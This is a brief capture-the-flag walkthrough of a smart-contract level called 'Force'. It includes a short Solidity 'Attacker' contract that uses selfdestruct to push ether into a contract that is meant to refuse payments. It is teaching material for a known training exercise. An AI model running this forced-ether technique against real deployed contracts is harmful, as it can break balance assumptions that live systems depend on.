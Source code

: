 # Force

This contract is supposedly not accepting any paymnets. Well, it is possible to force money in a contract by `selfdestruct`'ing a contract with some balance, with the target contract as the address.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Attacker {

  constructor() payable {
  }

  function pwn(address _target) public {
    selfdestruct(payable(_target));
  }

  receive() external payable {}
  fallback() external payable {}
}
```

We create the above contract with some small amount of ether, and then call the `pwn` function to let it `selfdestruct` and transfer all of its balance to the target contract.
